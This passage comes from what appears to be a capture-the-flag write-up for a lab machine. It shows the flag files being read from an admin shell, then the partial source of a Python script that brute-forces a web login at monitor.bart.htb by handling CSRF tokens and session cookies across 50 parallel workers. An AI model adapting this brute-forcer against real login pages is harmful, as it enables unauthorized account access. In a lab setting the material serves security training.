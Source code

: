 ### user.txt and root.txt

With admin shell, can grab both flags:

    
    
    PS C:\Users\Administrator\Documents> cat C:\users\h.potter\user.txt
    625b6c7a...
    PS C:\Users\Administrator\Documents> cat C:\users\Administrator\Desktop\root.txt
    0074a38e...
    

## Beyond Root

### brute forcer source

`brute_monitor_login.py`:

    
    
    #!/usr/bin/env python3
    
    import re
    import requests
    import sys
    from multiprocessing import Pool
    
    
    MAX_PROC = 50
    url = "http://monitor.bart.htb/"
    username = "harvey"
    
    #<input type="hidden" name="csrf" value="aab59572a210c4ee1f19ab55555a5d829e78b8efdbecd4b2f68bd485d82f0a57" />
    csrf_pattern = re.compile('name="csrf" value="(\w+)" /')
    
    def usage():
        print("{} [wordlist]".format(sys.argv[0]))
        print("  wordlist should be one word per line]")
        sys.exit(1)
    
    def check_password(password):
    
        # get csrf token and PHPSESSID
        r = requests.get(url)
        csrf = re.search(csrf_pattern, r.text).group(1)
        PHPSESSID = [x.split('=')[1] for x in r.headers['Set-Cookie'].split(';') if x.split('=')[0] == 'PHPSESSID'][0]
    
        # try login:
        data = {"csrf": csrf,
                "user_name": username,
                "user_password": password,
                "action": "login"}
        proxies = {'http': 'http://127.0.0.1:8080'}
        headers = {'Cookie': "PHPSESSID={}".format(PHPSESSID)}
        r = requests.post(url, data=data, proxies=proxies, headers=headers)
    